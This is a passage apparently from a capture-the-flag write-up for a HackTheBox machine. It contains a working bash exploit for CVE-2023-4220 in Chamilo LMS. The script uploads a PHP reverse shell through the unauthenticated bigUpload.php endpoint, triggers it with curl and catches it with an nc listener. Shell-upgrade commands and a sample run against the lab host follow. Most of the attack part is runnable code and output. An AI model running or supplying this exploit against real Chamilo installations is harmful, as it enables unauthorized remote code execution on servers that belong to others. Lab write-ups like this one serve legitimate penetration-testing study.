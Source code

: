 # Check if all required options are provided
if [ -z "$reverse_file" ] || [ -z "$host_link" ] || [ -z "$port" ]; then
    echo -e  "${RED}"
    echo "All options -f, -h, and -p are required."
    usage
fi
# Perform the file upload using curl
echo -e "${GREEN}" 
curl -F "bigUploadFile=@$reverse_file" "$host_link/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported"
echo
echo
echo -e "#    Use This leter For Interactive TTY ;) " "${RED}"
echo "#    python3 -c 'import pty;pty.spawn(\"/bin/bash\")'"
echo "#    export TERM=xterm"
echo "#    CTRL + Z"
echo "#    stty raw -echo; fg"
echo -e "${GREEN}"
echo "# Starting Reverse Shell On Port $port . . . . . . ."
sleep 3
curl "$host_link/main/inc/lib/javascript/bigupload/files/$reverse_file" &
echo -e  "${NC}"

nc -lnvp $port 
</code></pre>

I am going to use the reverse shell of pentest monkey

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

we start nc to the port we have defined in the reverse shell 
<pre><code>
~> ./CVE-2023-4220.sh -f php-reverse-shell.php -h http://lms.permx.htb/ -p 1234

The file has successfully been uploaded.

#    Use This leter For Interactive TTY ;)  
#    python3 -c 'import pty;pty.spawn("/bin/bash")'
#    export TERM=xterm
#    CTRL + Z
#    stty raw -echo; fg

# Starting Reverse Shell On Port 1234 . . . . . . .
